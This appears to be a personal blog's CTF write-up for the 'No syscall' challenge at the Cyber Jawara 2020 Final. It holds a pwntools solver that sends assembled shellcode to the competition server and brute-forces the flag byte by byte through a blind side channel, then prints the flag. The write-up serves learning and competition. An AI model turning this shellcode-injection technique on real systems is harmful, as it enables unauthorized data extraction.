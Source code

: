 ```yaml
---
layout: post
title:  "Cyber Jawara 2020 Final "
date:   2020-10-18
categories: ctf
description: Writeup Cyber Jawara 2020 Final
tags: ctf-writeup
---
```


Cyber Jawara is the first CTF in Indonesia and this is the 9th cyber jawara series, cyber jawara is supported by a lot of cybersecurity companies and the government my team glut0r is qualified to compete in the final this year.
after competing with a lot of CTF team in Indonesia. the final section is held at hotel Padma Bali, but due to
the outbreak, the final section is running online.


<img src="/images/cj2020final/poster.jpg"/>



# No syscall 

### Description:


### Solution:

in this challenge we weren't given any binary, so we have to leak the flag from the service. to solve this challenge we can brute the flag
each byte, during my blackbox test, i found rsp+16 can help us to give a signal so we can use rsp+16 to inform as if we input the correct byte.

<img src="/images/cj2020final/no-syscall.png"/>



Solver:

{% highlight python %}

#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *

context.arch = 'amd64'


def main():
    tmp = ''
    pos = 0
    while True:
        for i in range(0xff):
            r = remote('1337.cyber.jawara.systems', 2001)
            r.recvuntil(':')
            flag = int(r.recv(15).replace('\n', ''), 16)
            guess = i
            log.info('flag address: ' + hex(flag))
            log.info('flag: ' + tmp)
            back_to_main = '''
					mov r8, [rsp-16]
					call r8
			'''.format(flag)
            print_msg = '''
					mov r15, [rsp-16]
					mov al, byte ptr [{}]
					cmp al, {}
					je go
					mov rdx, [rsp+3]
					call rdx
			go:
					call r15
			'''.format(flag + pos, guess)
            sh = asm(print_msg)
            r.sendlineafter(':', sh)
            k = r.recvline()
            log.info('res: ' + k)
            if 'flag' in k:
                tmp += chr(i)
                pos += 1
                break
            if '}' in tmp:
                print tmp
                raw_input("done")

            # r.interactive()

            r.close()


if __name__ == '__main__':
    main()


{% endhighlight %}

FLAG: CJ2020{~51d3#ch4NnEl~}




